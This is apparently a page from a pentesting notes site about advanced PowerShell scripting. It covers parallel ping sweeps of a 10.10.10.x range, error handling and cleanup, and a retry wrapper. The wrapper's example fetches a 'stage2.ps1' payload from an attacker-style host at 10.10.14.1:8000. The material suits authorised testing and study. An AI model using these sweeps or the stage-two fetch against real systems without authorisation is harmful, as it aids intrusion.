

repository: amandaguglieri/hackinglife · page: powershell/powershell-scripting-for-pentesting-advanced/index.html · generator: mkdocs

---
title: PowerShell scripting for pentesting - advanced
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - powershell
  - powershell pentesting
  - scripting
---

# PowerShell scripting for pentesting - advanced

Builds on [PowerShell scripting for pentesting](powershell-scripting-for-pentesting.md). Covers parallelization, resilience, obfuscation and stealthier persistence.

## Parallelizing scans with jobs and runspaces

```powershell
# Background jobs (simple, higher overhead)
1..254 | ForEach-Object {
    Start-Job -ScriptBlock {
        param($i)
        if (Test-Connection -ComputerName "10.10.10.$i" -Count 1 -Quiet) {
            Write-Output "10.10.10.$i is up"
        }
    } -ArgumentList $_
} | Out-Null

Get-Job | Wait-Job | Receive-Job
Get-Job | Remove-Job

# ForEach-Object -Parallel (PowerShell 7+, much lighter than jobs)
1..254 | ForEach-Object -Parallel {
    if (Test-Connection -ComputerName "10.10.10.$_" -Count 1 -Quiet) {
        Write-Output "10.10.10.$_ is up"
    }
} -ThrottleLimit 20
```

## Robust error handling and cleanup

```powershell
$ErrorActionPreference = "Stop"
$tmpDir = Join-Path $env:TEMP ([guid]::NewGuid())
New-Item -ItemType Directory -Path $tmpDir | Out-Null

try {
    # ... use $tmpDir for scratch files during an engagement ...
} catch {
    Write-Output "[!] error: $($_.Exception.Message)"
} finally {
    Write-Output "[*] cleaning up $tmpDir"
    Remove-Item -Path $tmpDir -Recurse -Force -ErrorAction SilentlyContinue
}

# Trap Ctrl+C at the console-host level
$null = Register-EngineEvent -SourceIdentifier PowerShell.Exiting -Action {
    Write-Output "[!] session ending, cleaning up"
}
```

## Retrying flaky network operations

```powershell
function Invoke-Retry {
    param(
        [scriptblock]$ScriptBlock,
        [int]$Attempts = 5,
        [int]$DelaySeconds = 3
    )
    for ($n = 1; $n -le $Attempts; $n++) {
        try {
            return & $ScriptBlock
        } catch {
            if ($n -eq $Attempts) { throw }
            Start-Sleep -Seconds $DelaySeconds
        }
    }
}

Invoke-Retry -ScriptBlock { Invoke-WebRequest -Uri http://10.10.14.1:8000/stage2.ps1 -UseBasicParsing }
```
